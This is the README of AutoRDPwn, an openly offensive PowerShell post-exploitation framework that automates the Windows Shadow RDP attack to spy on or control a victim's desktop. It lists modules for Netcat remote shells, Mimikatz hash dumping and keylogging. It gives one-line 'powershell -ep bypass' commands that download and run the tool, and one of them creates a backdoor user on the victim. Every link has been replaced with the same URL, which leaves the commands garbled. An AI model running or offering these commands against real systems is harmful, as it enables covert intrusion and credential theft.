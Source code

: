 <p align="center"><img width=450 alt="AutoRDPwn" src="https://github.com/Unleashur/AutoRDPwn/releases"></p>

**AutoRDPwn** is a post-exploitation framework created in Powershell, designed primarily to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.

Thanks to the additional modules, it is possible to obtain a remote shell through Netcat, dump system hashes with Mimikatz, load a remote keylogger and much more. All this, Through a completely intuitive menu in seven different languages.

Additionally, it is possible to use it in a reverse shell through a series of parameters that are described in the usage section.


# Requirements
Powershell 4.0 or higher


# Changes
## Version 5.1
• Many bugs fixed

• Aesthetic improvements and improved waiting times

• Proxy-Aware connection through system settings

• It is now possible to use the offline tool by downloading the .zip file

• Language auto-detection by pressing the enter key

• Invoke-DCOM has been replaced by SharpRDP

• PowerUp has been replaced by Invoke-PrivescCheck

• Creation of the automatic cleaning subroutine in the victim

• New module available: SMB Shell encrypted with AES

• New module available: Change user with RunAs

*The rest of the changes can be consulted in the CHANGELOG file


# Usage
This application can be used locally, remotely or to pivot between teams.

When used remotely in a reverse shell, it is necessary to use the following parameters:

| Parameter               | Description                                                                                    | 
| :---------------------- | :--------------------------------------------------------------------------------------------- | 
| **-admin / -noadmin**   | Depending on the permissions we have, we will use one or the other                             |
| **-nogui**              | This will avoid loading the menu and some colors, guaranteed its functionality                 | 
| **-lang**               | We will choose our language (English, Spanish, French, German, Italian, Russian or Portuguese) |
| **-option**             | As with the menu, we can choose how to launch the attack                                       |
| **-shadow**             | We will decide if we want to see or control the remote device                                  |
| **-createuser**         | This parameter is optional, the user AutoRDPwn:AutoRDPwn will be created on the victim machine |
| **-noclean**            | Disables the process of undoing all changes on the victim computer                             |

**Local execution on one line:**
```
powershell -ep bypass "cd $env:temp ; iwr https://github.com/Unleashur/AutoRDPwn/releases -outfile https://github.com/Unleashur/AutoRDPwn/releases ; .\https://github.com/Unleashur/AutoRDPwn/releases"
```

**Example of remote execution on a line:**
```
powershell -ep bypass "cd $env:temp ; iwr https://github.com/Unleashur/AutoRDPwn/releases -outfile https://github.com/Unleashur/AutoRDPwn/releases ; .\https://github.com/Unleashur/AutoRDPwn/releases -admin -nogui -lang English -option 4 -shadow control -createuser"
```


### The detailed guide of use can be found at the following link:

https://github.com/Unleashur/AutoRDPwn/releases


# Screenshots
![AutoRDPwn1_en](https://github.com/Unleashur/AutoRDPwn/releases)
![AutoRDPwn2_en](https://github.com/Unleashur/AutoRDPwn/releases)


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This framework has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec

Some modules use third-party code, scripts, and tools, particularly:

• **Chachi-Enumerator** by *Luis Vacas* --> https://github.com/Unleashur/AutoRDPwn/releases

• **Invoke-Phant0m** by *Halil Dalabasmaz* --> https://github.com/Unleashur/AutoRDPwn/releases

• **Invoke-PowerShellTcp** by *Nikhil "SamratAshok" Mittal* --> https://github.com/Unleashur/AutoRDPwn/releases

• **Invoke-TheHash** by *Kevin Robertson* --> https://github.com/Unleashur/AutoRDPwn/releases

• **Mimikatz** by *Benjamin Delpy* --> https://github.com/Unleashur/AutoRDPwn/releases

• **PsExec** by *Mark Russinovich* --> https://github.com/Unleashur/AutoRDPwn/releases

• **RDP Wrapper** by *Stas'M Corp.* --> https://github.com/Unleashur/AutoRDPwn/releases

• **SharpRDP** by *Steven F* --> https://github.com/Unleashur/AutoRDPwn/releases

And many more, that do not fit here.. Thanks to all of them and their excellent work.


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can contact through https://github.com/Unleashur/AutoRDPwn/releases


# Support
You can support my work buying me a coffee:

[<img width=250 alt="buymeacoffe" src="https://github.com/Unleashur/AutoRDPwn/releases">](https://github.com/Unleashur/AutoRDPwn/releases)
